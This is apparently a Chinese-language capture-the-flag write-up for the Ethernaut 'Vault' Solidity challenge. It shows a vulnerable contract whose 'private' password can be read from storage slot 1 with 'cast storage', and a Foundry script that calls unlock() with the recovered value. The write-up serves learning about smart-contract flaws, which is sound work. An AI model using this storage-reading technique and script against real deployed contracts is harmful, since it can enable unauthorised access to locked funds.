


## Vault

### 目标：

成功解锁金库，使`locked = false`

### 思路：

观察源码，想使`locked = false`，必须调用`unlock`函数，首先需要知道password，这涉及到了存储槽问题



第一个存储槽返回的是bool类型变量，为`true`

第二个存储槽返回的是password

然后在脚本中直接调用`unlock`函数，并且导入password即可成功解锁金库，因此这道题最关键的是**会利用`cast storage`读取存储槽中的变量**

### 源码：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

### POC：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";

interface ITarget{
    function unlock(bytes32 _password) external;
}

contract Attack is Script{
    ITarget public target = ITarget(0x06524E6F3CA2e5708373421feCdB6DF64c63E475);
    function run() external{

    vm.startBroadcast();

    bytes32 _password = 0x412076657279207374726f6e67207365637265742070617373776f7264203a29;
    target.unlock(_password);

    vm.stopBroadcast();
    }
}
```


